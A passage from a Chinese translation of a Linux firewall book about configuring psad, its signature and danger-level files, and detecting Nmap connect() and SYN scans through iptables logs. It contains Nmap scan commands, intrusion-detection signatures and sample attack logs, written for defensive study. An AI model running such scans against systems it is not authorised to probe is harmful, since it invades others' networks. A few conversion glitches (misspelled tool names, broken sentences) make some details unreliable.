由于 iptables 策略可能非常复杂，`IPTables::Parse`模块的解析能力并不总能充分确定策略是否具有“记录并丢弃”立场。即使检查失败，`psad`可能仍然能够运行；其效果与 iptables 记录的数据包类型成正比。事实上，某些协议（如 Windows 使用的 SMB）过于冗杂而不适合记录，因此与它们相关的数据包通常在触发`LOG`规则之前就被接受或丢弃。如果您运行的是`fwcheck_psad`无法正确解析的复杂 iptables 策略，您可以通过在`/etc/psad/psad.conf`中将`ENABLE_FW_LOGGING_CHECK`变量设置为`N`来禁用此检查。

## syslog 配置

在充分了解`psad`对 iptables 策略配置的要求后，我们现在转向`psad`获取 iptables 日志消息的机制。当一个数据包被 iptables 中的`LOG`规则匹配时，内核会通过 klog（内核日志守护进程）报告此情况。产生的内核日志消息通常随后被传递给 syslog，最终报告到文件、命名管道，甚至通过 Berkeley sockets 接口传递到另一个完全独立的系统。这全部取决于 syslog 守护进程提供的一组功能及其配置方式。

`syslogd`和`syslog-ng`守护进程与`psad`兼容，且`psad`对`metalog`也有一定的有限支持。`syslogd`和`syslog-ng`都可以将日志消息写入命名管道中写入；`psad`利用这一特性，将所有 kern.info 日志消息配置为写入到`/var/lib/psad/psadfifo`命名管道中，随后由`kmsgd`接管。当`kmsgd`通过`psadfifo`接收到 syslog 消息时，它会检查消息中是否包含两个子字符串（`IN=`和`OUT=`），以确保该 syslog 消息是由 iptables 生成的。如果消息通过了此项测试，`kmsgd`将其追加到`/var/log/psad/fwdata`文件中，以便`psad`能够读取。毕竟，许多 kern.info syslog 消息可能由与 iptables 无关的内核部分生成；`kmsgd`确保只有 iptables 消息随后才由`psad`进行分析。

## 注意

`IN=`和`OUT=`字符串表示通过 iptables `LOG`目标记录的数据包所关联的输入和输出接口。这些字符串始终包含在 iptables 日志消息中。

## syslogd

如果`psad`运行在安装了`syslogd`的系统上，安装时会将以下行追加到`/etc/syslog.conf`配置文件中；它将`syslogd`配置为将 kern.info 消息写入`/var/lib/psad/psadfifo`：

```
kern.info |var/lib/psad/psadfifo
```

## syslog-ng

另一方面，如果本地系统选择使用`syslog-ng`作为 syslog 守护进程，那么安装时会将以下行追加到`/etc/syslog-ng/syslog-ng.conf`配置文件中。（系统会进行检查，以确保日志源`psadsrc`已在`syslog-ng.conf`文件的前面定义，并且它指向`/proc/kmsg`。）

```
source psadsrc() { unix-stream("/dev/log"); internal(); pipe("/proc/kmsg"); };
filter f_psad { facility(kern) and match("IN=" ) and match("OUT=" ); };
destination psadpipe { pipe("/var/lib/psad/psadfifo"); };
log { source(psadsrc); filter(f_psad); destination(psadpipe); };
```

## whois 客户端

`psad`源码中捆绑了一个由 Marco d'Itri 编写的优秀的 whois 客户端。该客户端几乎总能为给定的 IP 地址查询到正确的网络块，`psad`利用该客户端查询 IP 地址的所有权信息并将其包含在电子邮件警报中（除非指定了`--no-whois`命令行开关）。拥有此类信息可以简化识别检测到扫描或其他攻击的网络管理员的过程。例如，IP 地址 219.146.161.10 一直在扫描我的一个系统。使用`psad`自带的 whois 客户端（安装在`/usr/bin/whois_psad`，以免覆盖系统中任何现有的 whois 客户端），我们得到以下结果：

```
$ /usr/bin/whois_psad 219.146.161.10
% [whois.apnic.net node-2]
% whois data copyright terms http://www.apnic.net/db/dbcopyright.html

inetnum: 219.146.0.0 - 219.147.31.255
netname: CHINATELECOM-SD
descr: CHINANET shandong province network
descr: China Telecom
descr: No.31, jingrong street
descr: Beijing 100032
country: CN
admin-c: CH93-AP
tech-c: WG1-AP
mnt-by: MAINT-CHINANET
mnt-lower: MAINT-CHINATELECOM-SD
changed: hostmaster8ns.chinanet.com.cn 20030820
status: ALLOCATED NON-PORTABLE
source: APNIC

person: Chinanet Hostmaster
nic-hdl: CH93-AP
e-mail: anti-spam@ns.chinanet.com.cn
address: No.31 ,jingrong street,beijing
address: 100032
phone: +86-10-58501724
fax-no: +86-10-58501724
country: CN
changed: lqing@chinatelecom.com.cn 20051212
mnt-by: MAINT-CHINANET
source: APNIC
```

从该输出可以看到，IP 地址 219.146.161.10 是一个大型网络的一部分（范围从 219.146.0.0 到 219.147.31.255），且该网络由名为中国电信（China Telecom）的组织控制。使用 whois 输出实际联系该网络管理员在抓获攻击者方面可能效果有限，因为该网络包含超过 70,000 个 IP 地址——其中任何一个都可能关联到一个真实的系统。然而，拥有准确的 whois 输出提供了宝贵的信息，至少使这一步骤变得可行。

## psad 配置

所有`psad`守护进程都引用`/etc/psad`目录下的`psad.conf`文件，该文件遵循一个简单的约定：注释行以井号（#）开头，配置参数以键值对格式指定。例如，`psad.conf`中的`HOSTNAME`变量定义了部署`psad`的系统主机名：

```
### System hostname
HOSTNAME		psad.cipherdyne.org;
```

每个配置变量的值必须以分号结尾，以表示值字符串的结束。这允许在分号之后同一行包含注释以辅助记录，如示例所示：

```
WHOIS_TIMEOUT		60; ### seconds
```

最后，`psad`变量值可以包含子变量，这些子变量在`psad`解析其配置时会被展开。例如，`psad`使用的主日志目录由`PSAD_DIR`变量定义，默认设置为`/var/log/psad`。其他配置变量可以像这样引用`PSAD_DIR`变量：

```
STATUS_OUTPUT_FILE		$PSAD_DIR/status.out;
```

### `/etc/psad/psad.conf`

`psad.conf`文件是`psad`的主配置文件。它包含 100 多个配置变量，用于控制`psad`运行的各个方面。在本节中，我们将讨论几个较重要的配置变量及其重要原因。

## 注意

这里不涵盖次要配置变量，但可以在 http://www.cipherdyne.org/psad/docs/index.html 找到完整的文档。

#### EMAIL_ADDRESSES

`EMAIL_ADDRESSES`变量定义了`psad`发送扫描警报、信息消息和其他通知的电子邮件地址。它支持以逗号分隔的列表形式定义多个电子邮件地址：

```
EMAIL_ADDRESSES		root@localhost, you@domain.com;
```

#### DANGER_LEVEL(n)

`psad`将所有恶意活动与一个危险级别相关联，以便对警报进行优先级排序。危险级别从 1 到 5（5 为最严重），并分配给每个检测到攻击或扫描的 IP 地址。危险级别的赋值基于三个因素：扫描特性（数据包数量、端口范围和时间间隔）、特定数据包是否与`/etc/psad/signatures`文件中定义的特征匹配，以及数据包是否源自`/etc/psad/auto_dl`文件中列出的 IP 或网络。

对于端口扫描及相应的数据包计数，`psad.conf`文件中的`DANGER_LEVEL{n}`变量指定了达到每个连续危险级别所需的数据包数量：

```
DANGER_LEVEL1 5;
DANGER_LEVEL2 15;
DANGER_LEVEL3 150;
DANGER_LEVEL4 1500;
DANGER_LEVEL5 10000;
```

## HOME_NET

由于`psad`使用修改后的 Snort 规则来检测可疑网络流量（我们将在第 7 章中看到），因此`psad.conf`文件中使用的变量与 Snort 使用的变量类似。`HOME_NET`变量定义了部署运行`psad`系统的本地网络。不过，`psad`处理`HOME_NET`变量的方式与 Snort 处理方式有一个不同之处——`psad`将在`INPUT`链中记录的任何数据包都视为发往主网络的，无论其源地址如何，因为此类数据包是直接发送给 iptables 防火墙本身的。您可以通过将`ENABLE_INTF_LOCAL_NETS`变量设置为`n`来覆盖此行为。在这种情况下，您可以像这样定义主网络列表：

```
HOME_NET 71.157.X.X/24, 192.168.10.0/24;
```

## EXTERNAL_NET

`EXTERNAL_NET`变量定义了外部网络集。默认值为`any`（任何），但也可以设置为任意的网络列表，类似于`HOME_NET`变量。对于大多数设置，默认值可能是最佳选择：

```
EXTERNAL_NET any;
```

## SYSLOG_DAEMON


`SYSLOG_DAEMON`变量告知`psad`本地系统上运行的是哪个`syslog`守护进程。该变量的可选值为：`syslogd`、`syslog-ng`、`ulogd`和`metalog`。该变量允许`psad`验证相应的`syslog`配置文件是否设置正确，从而使`kern.info`消息写入`/var/lib/psad/psadfifo`命名管道，但有一个例外：如果`psad`配置为通过`ulogd`获取`iptables`日志消息，则不需要运行任何`syslog`守护进程，因为消息直接写入磁盘。

直接由`ulogd`处理。[40] 在这种情况下，`psad`甚至不会启动`kmsgmd`守护进程。

## CHECK_INTERVAL

`psad`的大部分时间都处于休眠状态；它仅在唤醒时检查`/var/log/psad/fwdata`文件中是否出现了新的`iptables`日志消息。连续两次检查之间的时间间隔由`CHECK_INTERVAL`变量以秒为单位定义；默认值为 5 秒。该间隔最低可设置为 1 秒，但除非您希望尽可能快地生成警报，否则通常无需这样做。

## SCAN_TIMEOUT

默认情况下，`SCAN_TIMEOUT`变量设置为 3,600 秒（一小时），`psad`使用该值作为跟踪扫描的时间间隔。也就是说，如果来自特定 IP 地址的恶意流量在此时间段内未达到 1 级的危险级别，`psad`将不会生成警报。通过将`ENABLE_PERSISTENCE`设置为`y`（见下文），可以有效地忽略`SCAN_TIMEOUT`变量。

## ENABLE_PERSISTENCE

端口扫描检测软件通常必须设置两个阈值才能捕获端口扫描：探测端口的数量和时间间隔。攻击者可以通过减少扫描端口的数量或降低扫描速度，尝试避开这些阈值。`ENABLE_PERSISTENCE`变量指示`psad`在扫描检测中不将`SCAN_TIMEOUT`变量作为考量因素。这有助于挫败扫描者通过在数天或数周内缓慢扫描目标系统以避开超时阈值的企图。一旦扫描涉及的数据包数量至少达到`DANGER_LEVEL1`变量定义的值（无论发送这些数据包花费了多少时间），`psad`就会发送警报。

## PORT_RANGE_SCAN_THRESHOLD

该变量允许您定义在`psad`为端口扫描分配危险级别之前必须扫描的最小端口范围。默认情况下，`PORT_RANGE_SCAN_THRESHOLD`设置为 1，这意味着必须扫描至少两个不同的端口才能达到 1 级危险级别。换句话说，一个 IP 地址可以重复扫描单个端口，而`psad`永远不会发送警报。（对于任何未被分配至少 1 级危险级别的活动都不会发送警报，且`psad`可配置为直到达到 1 到 5 级之间的最低危险级别才发送警报；请参阅下文“EMAIL ALERT DANGER LEVEL”。）如果您完全不希望`psad`将扫描端口的范围纳入考量，请将`PORT_RANGE_SCAN_THRESHOLD`设置为 0。

## EMAIL_ALERT_DANGER_LEVEL

该变量允许您设置危险级别的最小值，以便`psad`仅在 IP 地址被分配的危险级别至少等于该值时才发送电子邮件警报。默认设置为 1。

## MIN_DANGER_LEVEL

`MIN_DANGER_LEVEL`阈值充当`psad`执行的所有警报和跟踪功能的全局阈值。例如，如果`MIN_DANGER_LEVEL`设置为 2，那么在 IP 地址达到 2 级危险级别之前，`psad`甚至不会将其写入`/var/log/psad/ip`目录。因此，`MIN_DANGER_LEVEL`变量应始终小于或等于上述`EMAIL_ALERT_DANGER_LEVEL`变量分配的值。默认的`MIN_DANGER_LEVEL`为 1。

## SHOW_ALL_SIGNATURES

该变量控制`psad`是否在每次警报中包含与 IP 地址相关的所有特征码警报信息（特征码信息的示例请参阅第 7 章关于`psun`警报的部分）。该功能默认禁用，因为如果某个特定 IP 地址在长时间内持续用可疑流量攻击您的站点，可能会导致`psad`发出冗长的电子邮件警报。不过，即使`SHOW_ALL_SIGNATURES`被禁用，`psad`的电子邮件警报仍将包含在最近一个`CHECK_INTERVAL`内所有新触发的特征码。

## ALERT_ALL

当设置为`y`时，该变量指示`psad`在发现来自某个 IP 地址的新恶意活动且其危险级别达到 1 级时，生成电子邮件和/或`syslog`警报。如果设置为`n`，则`psad`仅在与 IP 地址关联的危险级别升高时才生成警报。

## SNORT_SID_STR

该变量定义了一个子字符串，用于与`iptables`日志消息进行匹配，以检查消息是否由完全刻画了`Snort`规则的`iptables`规则生成。此类`iptables`规则由`fwsorry`产生（见第 9 章和第 10 章），它们通常包含一个日志前缀`SID{n}`，其中`{n}`是源自原始`Snort`规则的 Snort ID 编号。`SNORT_SID_STR`的默认值仅为`SID`。

## ENABLE_AUTO_IDS

如果设置为`y`，该变量将`psad`从一个被动监控的守护进程转变为一个能主动响应攻击的程序，通过动态重新配置本地`iptables`策略，阻止违规 IP 地址与本地系统（通过`INPUT`和`OUTPUT`链）以及可能由本地系统保护的所有系统（通过`FORWARD`链）进行交互。第 8 章讨论了此功能的影响以及如何高效使用它。此处未讨论几个自动响应变量，但可以在第 8 章中找到。

## IMPORT_OLD_SCANS

`psad`收集的关于端口扫描和其他可疑活动的资料被写入`/var/log/psad`目录。对于每个达到 1 级危险级别的 IP 地址，都会创建一个新的目录`/var/log/psad/ip`。存储在该目录中的各种文件包括最新的电子邮件警报、`whois`输出、特征码匹配情况、危险级别和数据包计数器。在启动时，`psad`通常会删除任何现有的`/var/log/psad/ip`目录，但您可以通过将`IMPORT_OLD_SCANS`设置为`Y`来让`psad`导入这些旧目录中的所有数据。此功能允许您重启`psad`或重启整个系统而不会丢失前一个`psad`实例的扫描数据。

## ENABLE_DSHIELD_ALERTS

将此变量设置为`y`，允许`psad`将扫描数据发送到 DShield 分布式入侵检测系统。由于扫描信息可能较为敏感，您应当意识到，当您将扫描数据传递给 DShield 时，它将不再受您控制，并会被解析到一个相对开放的

与任何 IDS 都是如此，误报的可能性始终很高。因此，每个 IDS 都应具备白名单功能，通过该功能可以将特定的系统、网络、端口或协议从任何检测机制以及（最重要地）任何自动响应特性中排除。由于某些 IP 地址或网络可能是已知的恶意行为者，因此还应提供将其列入黑名单的规定。

这些要求在`psad`的`auto_dl`文件中得到了满足，该文件遵循以下语法：

```
ip/network		danger level		optional protocol/optional ports
```

如果危险等级（danger level）被设置为零，`psad`将完全忽略该 IP 地址或网络。然而，如果某个特定的 IP 地址或网络已知具有极强的恶意性，危险等级最高可设置为五。

例如，以下两行中的第一行确保`psad`将忽略来自 IP 地址`192.168.10.3`的所有流量；第二行则立即将来自`10.10.1.0/24`网络的所有 TCP 22 端口 (SSH) 流量的危险等级提升至五：

```
192.168.10.3	 0;
10.10.1.0/24	 5	 tcp/22;
```

## /etc/psad/signatures

`/etc/psad/signatures`文件包含一组约 200 条经过轻微修改的`Snort`规则。这些规则代表了`psad`能够直接从`iptables`日志消息中检测到的攻击。这些规则都不需要对网络流量进行应用层测试——`fwsnort`负责运行应用层测试（见第 9 章和第 10 章）。该文件中的一个规则示例片段如下：

```
alert udp $EXTERNAL_NET any -> $HOME_NET 1026:1029 (msg:"MISC Windows popup spam attempt"; classtype:misc-activity; reference:url,www.linklogger.com/UDP1026.htm; psad_dsize:100; psad_id:100196; psad_dl:2;)
```

上述**粗体**字段是`psad`为`Snort`规则语言添加的自定义字段。在这种情况下，`psad_dsize`字段要求 UDP 数据包的数据部分必须大于 100 字节，`psad_id`字段为该规则定义了一个唯一 ID，而`psad_dl`字段则告知`psad`为触发此签名的任何 IP 地址分配两个单位的危险等级。关于`psad`对`Snort`规则语言所做修改的完整讨论在第 7 章中提供。

## /etc/psad/snort_rule_dl

与`/etc/psad/auto_dl`文件类似，`snort_rule_dl`文件指示`psad`自动设置任何触发`Snort`规则匹配的 IP 地址的危险等级。该文件的语法如下：

```
sid    danger level
```

如果危险等级为零，`psad`将完全忽略签名匹配，且不发送任何警报。不过，某些签名匹配比其他匹配更严重——如果`psad`检测到匹配`Snort`规则 ID 1812 (`EXPLOIT gobbles SSH exploit attempt⁴¹`) 的流量，这可能比匹配`Snort`规则 ID 469 (`ICMP PING NMAP`) 更具破坏性。当然，限制 Gobbles SSH 漏洞影响的最佳策略是根本不运行有漏洞的 SSH 守护进程，但检测针对该漏洞的攻击仍然很重要。你可以将匹配`Snort`规则 1812 的 IP 地址的危险等级提升到 5，如下所示：

```
1812    5;
```

## /etc/psad/ip_options

如第 2 章所述，IP 标头中的选项部分在 IP 通信中并不常用，但`iptables`可以通过`--log-ip-options`命令行参数记录 IP 选项。如果`iptables`日志消息包含 IP 选项，`psad`会解析这些选项以查找可疑活动，例如源路由尝试。有几条`Snort`规则定义了 IP 选项的可疑用法，`psad`参考`/etc/psad/ip_options`文件来解码`iptables`日志消息中的 IP 选项。该文件根据以下语法定义常用 IP 选项及其相应的识别号：

```
option value    length (-1 for variable)    ipopts argument    description
```

例如，`Snort`的`lsrr` (Loose Source Route) 选项是这样包含的：

```
131    -1    lsrr    Loose Source Route
```

## /etc/psad/pf.os

`psad`使用来自`p0f`项目的 OS 数据库来对远程操作系统进行被动指纹识别。该数据库由`psad`安装为`/etc/psad/pf.os`文件，并在`psad`启动时（或当`psad`通过`kill`命令或`psad -H`接收到 hangup 或 HUP 信号时）导入。

以下是一个 Linux 的`p0f`指纹示例：

```
S4:64\1:60\M^M,S,T,N,W0:    Linux:2.4::Linux 2.4/2.6 <= 2.6.7
```

你可以在第 7 章中找到关于被动 OS 指纹识别主题的更多资料（包括上述`p0f`签名格式的详细分析）。

> ⁴⁰ `ulogd`是 Netfilter 项目提供的用户空间日志守护进程，旨在提供比标准 `LOG` 目标更灵活的日志选项。特别是，数据包由各种`ulogd`插件管理，这些插件可以执行诸如将 `pcap` 格式的数据包记录到磁盘甚至将其写入 MySQL 数据库等操作。`ulogd`可以从 http://www.gnumonks.org/projects 下载。

> ⁴¹ 这需要`fwsnort`对 SSH 应用层数据进行字符串匹配；关于此主题的更多内容见第 9 章。

## 结语

本章重点介绍了在运行`iptables`的 Linux 系统上安装和配置`psad`。文中介绍了一些`psad.conf`文件中较为重要的配置变量，现在我们准备在下一章深入研究`psad`的运行方面。供参考，你可以在 http://www.cipherdyne.org/linuxfirewalls 在线找到默认`psad`配置文件的完整示例。在 http://www.cipherdyne.org 同样有大量可用的`psad`附加文档。

# 第 6 章. PSAD 运行：检测可疑流量

在本章中，我们将专注于分析在不使用`iptables`字符串匹配扩展的情况下生成的`iptables`日志。我们将把精力集中在通过检查网络层和传输层标头（而非查看应用层）来检测恶意网络流量。在第 11 章中，我们将大量使用字符串匹配扩展，进入应用层攻击检测领域，但目前我们将通过解析`iptables`日志消息来展示`psad`如何检测端口扫描、后门探测和其他可疑流量。

本章旨在向您介绍`psad`的运行方面，包括攻击检测和警报。更高级的主题，如签名检测、操作系统指纹识别和 DShield 报告在第 7 章中讨论，而将`psad`用作主动响应工具的用法在第 8 章和第 11 章中讨论。我们首先展示一组`psad`仅通过监控`iptables`日志消息即可检测到的攻击和可疑流量。

## 使用 psad 进行端口扫描检测

尽管如今许多攻击已转移到应用层，但仍有相当数量的可疑活动体现在传输层及以下层级。

任何完整的 TCP/IP 协议族实现都是一大批庞大且复杂的代码，这种复杂性使其成为了从侦察活动到拒绝服务攻击等所有攻击目标的诱人目标。本节将演示针对`iptablesfw` Linux 系统的几种攻击和探测，并将参考图 1-2 中的网络图（下方复制为图 6-1）。这一次，`psad`与第 1 章讨论的由`iptables.sh`脚本构建的默认策略一起部署在`iptablesfw`系统上（该脚本可在 http://www.cipherdyne.org/linuxfirewalls 获取）。本节讨论的所有攻击在内核中激活`iptables`策略的情况下发送至`iptablesfw`系统。该策略的默认日志立场就是`psad`检测可疑活动所需的一切；不需要额外的`iptables`功能（如字符串匹配）。



**图 6-1. 默认网络图**

端口扫描是审问远程目标的一项重要技术，`psad`的开发主要目标就是为 Linux 系统提供高级的端口扫描检测。本节的首要任务是演示各种类型的端口扫描，并观察它们在`iptables`日志中是如何呈现的。

与第 3 章一样，我们再次使用 Nmap 来扫描系统。不过这一次，扫描目标运行着`psad`，以便分析`iptables`日志。我们将使用 Nmap 生成以下类型的端口扫描，然后我们将看到`psad`如何检测它们：

- TCP connect() 扫描

- TCP FIN, XMAS 和 NULL 扫描

- TCP SYN 或半开放扫描

- UDP 扫描

**注意**

有关这些扫描技术的技术描述，请参阅第 3 章。

每次扫描都如图 6-1 所示，从`ext_scanner`系统启动，针对`iptables`防火墙的外部 71.157.X.X IP 地址。在发送第一次扫描之前，我们确保`psad`在`iptables`防火墙上运行，并且`/etc/psad/psad.conf`文件中采用了默认的`DANGER_LEVEL{n}`设置：

```
[iptablesfw]# /etc/psad/psad.init/d/psad start
Starting psad ... [ ok ]
```

### NMAP 与往返时间 (RTT)

在本节的大多数扫描示例中，Nmap 的时间选项（如`-T`和`--max-rtt-timeout`）会影响 Nmap 扫描目标的速度。由于`iptables`严重限制了本地协议栈对每个扫描探测能发送的响应，你可以限制 Nmap 等待响应的时间...

永远不会到来。例如，当 Nmap 向 5000 端口发送一个 SYN 数据包时，`iptables`会将其丢弃，因此目标栈永远不会发送 Nmap 所期望的 SYN/ACK 或 RST/ACK。通过缩短 Nmap 等待该响应的时间（使用`--max-rtt-timeout`选项），我们可以减少扫描系统所需的总时间。（确定`--max-rtt-timeout`值的一个良好上限的方法是在开始扫描前使用`ping`工具测量到目标的往返时间。）

## TCP connect() 扫描

Nmap 的 TCP connect() 扫描模式 (`-sT`) 在第 3 章中介绍，可用在类 Unix 操作系统上的非特权用户。我们首先针对目标 IP 地址 71.157.X.X 展示此次扫描：

```
[ext_scanner]$ nmap -sT -n 71.157.X.X --max-rtt-timeout 500
```

```
Starting Nmap 4.01 ( http://www.nmap.org/nmap/ ) at 2007-07-08 23:22 EST
Interesting ports on 71.157.X.X:
(The 80/1 ports scanned but not shown below are in state: filtered)
PORT STATE SERVICE
80/tcp open http
```


`Nmap finished: 1 IP address (1 host up) scanned in 22.551 seconds`

总共扫描了 1671 个 TCP 端口 (❶)，且正如预期的那样，几乎所有端口都被过滤 (❷)，因为 `iptables` 丢弃了绝大多数连接尝试。只有 HTTP 端口是开放的 (❸)。扫描完成后，我们检查 `/var/log/messages` 文件，看看 `psad` 是否检测到了此次扫描。事实上，那里出现了以下 syslog 消息：

```
Jul 8 23:22:29 iptablesfw psad: scan detected: 144.202.X.X -> 71.157.X.X tcp:
[1-65301] flags: SYN tcp pkts: 1532 DL: 4
```

`psad` 的 syslog 消息显示了源和目的 IP 地址、被扫描的 TCP 端口范围 (1-65301)、发送的标志（在本例中为 `SYN`）、发送的数据包总数，以及 `psad` 分配给扫描者的危险级别 (`DL: 4`)。

在这种情况下，`psad` 监控到的数据包数量为 1532（见上文 ❶），这超过了达到危险级别 4 所需的 1,500 个数据包（由 `/etc/psad/psad.conf` 中的 `DANGER_LEVEL4` 变量定义）。`psad` 还会生成电子邮件警报，其中包含的信息比单行 syslog 消息要多得多。（有关 `psad` 电子邮件警报的完整示例，请参阅第 108 页的“psad Email Alerts”。）

要查看 `psad` 用于检测扫描的 `iptables` 日志消息，请检查 `/var/log/psad/fwdata` 文件。（回想一下 `psad` 正在运行，因此 `kmsgd` 通过 syslog 接收 `iptables` 日志消息并将其写入 `/var/log/psad/fwdata` 文件；有关 `kmsgd` 的更多信息可见第 5 章。）

以下是来自 `fwdata` 文件的三条日志消息：

```
Jul  8 23:22:04 iptablesfw ef kernel: DROP IN=eth0 OUT= MAC=00:13:d3:38:b6:e4:00=30:48:80:4e:37:08:00 SRC=144.202.X.X DST=71.157.X.X LEN=60 TOS=0x00 PREC=0x00 TTL=64 ID=28124 DF @PROTO=TCP SPT=55103 DPT=53 WIN=5840 RES=0x00 SYN URGP=0 OPT (0204058040208004130D00000000000001030206)
```

```
Jul  8 23:22:04 iptablesfw ef kernel: DROP IN=eth0 OUT= MAC=00:13:d3:38:b6:e4:00=30:48:80:4e:37:08:00 SRC=144.202.X.X DST=71.157.X.X LEN=60 TOS=0x00 PREC=0x00 TTL=64 ID=53661 DF @PROTO=TCP SPT=59840 DPT=256 WIN=5840 RES=0x00 SYN URGP=0 OPT (0204058040208004130D00000000000001030206)
```

```
Jul  8 23:22:04 iptablesfw ef kernel: DROP IN=eth0 OUT= MAC=00:13:d3:38:b6:e4:00=30:48:80:4e:37:08:00 SRC=144.202.X.X DST=71.157.X.X LEN=60 TOS=0x00 PREC=0x00 TTL=64 ID=36136 DF @PROTO=TCP SPT=60134 DPT=3389 WIN=5840 RES=0x00 SYN URGP=0 OPT (0204058040208004130D00000000000001030206)
```

注意日志消息中有几个字段是以粗体显示的。上述 ① 处的字段显示输出接口为空，该字符串为 `OUT=`。这告诉我们，生成日志消息的数据包要么是在 `iptables` INPUT 链内部触发了 `LOG` 规则，要么是在内核进行路由计算之前的某个链中触发了 `LOG` 规则（例如 raw 表中的 `PREROUTING` 链）。

由于 `iptables` 的日志格式没有明确包含包含 `LOG` 规则的 `iptables` 链，我们无法从上述日志消息中判断数据包是从 `INPUT` 链还是 `PREROUTING` 链记录的。然而，由于大多数 `iptables` 策略将默认 `LOG` 规则放在 INPUT、FORWARD 或 OUTPUT 链中，而不是 `PREROUTING` 或 `POSTROUTING` 链中，因此 `psad` 假设以下规则适用于所有 `iptables` 日志消息：

- 不包含输出接口的消息是在 `INPUT` 链中记录的。
- 不包含输入接口的消息是在 `OUTPUT` 链中记录的。
- 同时包含输入和输出接口的消息是在 `FORWARD` 链中记录的。

因此，对于上述 TCP `connect()` 扫描，`psad` 假设该扫描是通过 `INPUT` 链记录的，鉴于由 `iptables.sh` 脚本构建的 `iptables` 策略，这是正确的。因为源 IP 地址 144.202.X.X 被包含在 ② 的日志消息中，`psad` 知道了扫描的来源。

## 注意

请记住，扫描有时会被故意伪造（spoofed），因此该 IP 地址不能完全被信任为扫描的真实源。当以 root 权限执行时，Nmap 可以使用诱饵选项 (`-D`) 发送伪造扫描，而闲置扫描（idle scan）则将 IP 伪造作为其核心组成部分。

上述 ③ 处 `iptables` 日志消息中的接下来的三个粗体字符串指示了被扫描的协议和端口，以及使用的标志。在本例中，扫描者关注的是 TCP 端口，且扫描数据包仅设置了 `SYN` 标志。

回想一下，在上述 `connect()` 扫描中，Nmap 总共扫描了 1,671 个端口，但只有 1,532 条 `iptables` 日志消息被写入了 `/var/log/psad/fwdata` 文件。这种差异源于两个因素：`iptables` 生成日志消息的速度，以及 Nmap 的 `SYN` 数据包重传。由于 `iptables` 在内部将日志记录到内核的环形缓冲区中，如果流量速度快到在旧消息被写入 `/var/lib/psad/psadfifo` 命名管道之前就用新消息覆盖了环形缓冲区，那么一些消息就会丢失。这种权衡是让你的机器保持运行并继续维持在不错的性能水平，代价是丢失少量日志消息（这看起来是一个合理的权衡）。因为 Nmap 通常对每个无响应端口发送一次重试，因此 Nmap 在这次特定扫描中实际发送了 3,300 多个数据包（内核环形缓冲区无法跟上这个数据包速率，因此大约一半的数据包未被记录）。

## TCP SYN 或半开放扫描

现在我们转向 Nmap 的 `SYN`（或半开放）扫描方法。当由特权用户执行时，`SYN` 扫描是 Nmap 的默认扫描类型。（事实上，这种以及所有其他有趣的 Nmap 扫描类型都需要访问原始套接字 raw sockets，因此必须由特权用户执行。）

因为目标系统上的 `iptables` 防火墙已配置为丢弃所有非目的端口为 TCP 80 的 `SYN` 数据包，所以从网络线路上看，`SYN` 扫描与常规的 TCP `connect()` 扫描几乎完全相同，因为扫描者的 TCP 栈几乎没有 `SYN/ACK` 数据包来响应。我们只看到了来自同一源地址的 `SYN` 数据包，没有其他内容。

这种推理在理论上通常是成立的，但在实践中，即使在两种情况下初始 `SYN` 数据包都被 `iptables` 丢弃，我们仍然能看到 `SYN` 扫描和 `connect()` 扫描之间存在几个显著差异。这些差异体现在 Nmap 在 `SYN` 扫描模式下发送的 `SYN` 数据包与通过 Nmap `connect()` 扫描由 TCP 栈本身发送的数据包的特定包头字段中。正如第 3 章所述，`connect()` 扫描发送的 TCP 选项比 `SYN` 扫描多得多，但还存在其他差异。本节的其余部分将阐述两种扫描中 `SYN` 数据包的具体差异，以及你如何在 `iptablesfw` 系统的 `iptables` 日志消息中看到这些差异。

下面的命令启动针对目标 IP 地址 71.157.X.X 的 `SYN` 扫描：

```
[ext_scanner]# nmap -n 71.157.X.X --max-rtt-timeout 500

Starting Nmap 4.03 ( http://www.insecure.org/nmap/ ) at 2007-03-13 13:58 EDT
Interesting ports on 71.157.X.X:
(The 1672 ports scanned but not shown below are in state: filtered)
PORT STATE SERVICE
80/tcp open http

Nmap finished: 1 IP address (1 host up) scanned in 22.611 seconds
```

快速检查 `/var/log/messages` 文件可以发现 `psad` 检测到了扫描：

```
Jul 13 13:58:10 iptablesfw psad: scan detected: 144.202.X.X -> 71.157.X.X
tcp: [1-65301] flags: SYN tcp pkts: 1542 DL: 4
```

扫描者已达到危险等级 4，因为发送的数据包超过了 1,500 个，这超过了 `psad.conf` 文件中的 `DANGER_LEVEL4` 变量。

同样地，在目标系统中，`iptables` 记录了扫描中的每个 `SYN` 数据包：

```
Jul 13 13:58:04 iptablesfw kernel: DROP IN=eth0 OUT= MAC=00:13:d3:38:b6:e4 00:30:48:80:4e:37 08:00 PROTO=TCP SRC=144.202.X.X DST=71.157.X.X LEN=44 TOS=0x00 PREC=0x00 TTL=53 ID=27267 PROTO=TCP SPT=62316 DPT=7200 WINDOW=2048 RES=0x00 SYN URGP=0 OPT (02040581)
Jul 13 13:58:04 iptablesfw kernel: DROP IN=eth0 OUT= MAC=00:13:d3:38:b6:e4 00:30:48:80:4e:37 08:00 PROTO=TCP SRC=144.202.X.X DST=71.157.X.X LEN=44 TOS=0x00 PREC=0x00 TTL=55 ID=29182 PROTO=TCP SPT=62315 DPT=5001 WINDOW=4096 RES=0x00 SYN URGP=0 OPT (02040581)
Jul 13 13:58:04 iptablesfw kernel: DROP IN=eth0 OUT= MAC=00:13:d3:38:b6:e4 00:30:48:80:4e:37 08:00 PROTO=TCP SRC=144.202.X.X DST=71.157.X.X LEN=44 TOS=0x00 PREC=0x00 TTL=59 ID=39294 PROTO=TCP SPT=62315 DPT=3264 WINDOW=4096 RES=0x00 SYN URGP=0 OPT (02040581)
```

这一次，我们重点标出了上述 `iptables` 日志消息中与前几节提到的 TCP `connect()` 扫描不同的字段。以下是这些字段及其与 `connect()` 扫描不同的原因：

### LEN
